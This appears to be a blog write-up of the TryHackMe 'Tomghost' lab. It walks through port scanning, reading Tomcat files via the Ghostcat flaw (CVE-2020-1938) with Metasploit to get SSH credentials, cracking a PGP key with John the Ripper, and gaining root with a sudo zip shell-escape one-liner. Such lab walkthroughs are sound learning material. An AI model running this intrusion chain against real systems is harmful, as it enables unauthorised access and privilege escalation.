 ```yaml
---
layout: post
permalink: /posts/thm/tomghost
title: "Tomghost"
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. <br/>

Let's scan the target machine for open ports with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/tomghost/nmap.png)

There are open ports 22, 53 8009 and 8080. Go and visit the website.

![website](/assets/images/thm/tomghost/website.png)

It's Apache Tomcat. I tried to scan for any hidden directories with gobuster

```
gobuster dir -u http://10.10.59.117:8080/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster](/assets/images/thm/tomghost/gobuster.png)

Unfortunately I didn't find anything useful. I wasn't sure what is the service running on port 8009. So I just googled `Apache Jserv` and found an exploit for it `CVE-2020-1938` <https://www.exploit-db.com/exploits/49039>. I learnt that using metasploit we'll be able to read files deplyed on Tomcat. Start Metasploit and execute `search ajp` 

![ms-search](/assets/images/thm/tomghost/ms-search.png)

We are going to use the auxiliary module.

![ms-options](/assets/images/thm/tomghost/ms-options.png)

Looking for the options we see that we need to provide the target machine IP.

```
set RHOSTS <IP>
```

Now just execute the `run` command.

![ms-result](/assets/images/thm/tomghost/ms-result.png)

We found credentials. Let's try to ssh with them.

```
ssh skyfuck@<IP>
```

![skyfuck-ls](/assets/images/thm/tomghost/skyfuck-ls.png)

There are two files and I wasn't sure what can I do with them so I just look for the first flag.

```
find / -name user.txt
```

![find](/assets/images/thm/tomghost/find.png)

Well, we have found the flag and also we found that there is another user `merlin`. I tried to check whether our current user has any root permisson to execute commands `sudo -l` but unfortunately skyfuck he has no any rights to execte commands as root.

![skyfuck-sudo](/assets/images/thm/tomghost/skyfuck-sudo.png)

So I decided to go back to the files we had found in skyfuck directory. I researched for what is pgp, it stands out for Pretty Good Privacy and it is used to encypt files. After some additional research we found that we can brute force the key `tryhackme.asc`  but first we have to convert it to hash and John the Ripper has the perfect script for that purpose `gpg2john`. We can use SSH to download the files.

```
scp skyfuck@<IP>:credential.pgp .
scp skyfuck@<IP>:tryhackme.asc .
```

The dot in the end means the current directory. Now let's convert the key

```
gpg2john tryhackme.asc > hash.txt
```

![hash](/assets/images/thm/tomghost/hash.png)

We have the hash, let's crack it.

```
john hash.txt --wordlist=rockyou.txt
```

![john](/assets/images/thm/tomghost/john.png)

Now we need to import the key and decrypt the pgp file

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp > cred.txt
```

![merlin-creds](/assets/images/thm/tomghost/merlin-creds.png)

Now we have merlin credentials. Go back to te target machine and switch the user `su merlin`. Let's see whether merlin has any right to execute commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/tomghost/sudo-l.png)

We are in luck. Visit <https://gtfobins.github.io/gtfobins/zip/> and see how we can escalate our priviliges using `zip` command

![gtfo](/assets/images/thm/tomghost/gtfo.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

![root](/assets/images/thm/tomghost/root.png)

Yey... we were able to get root access.
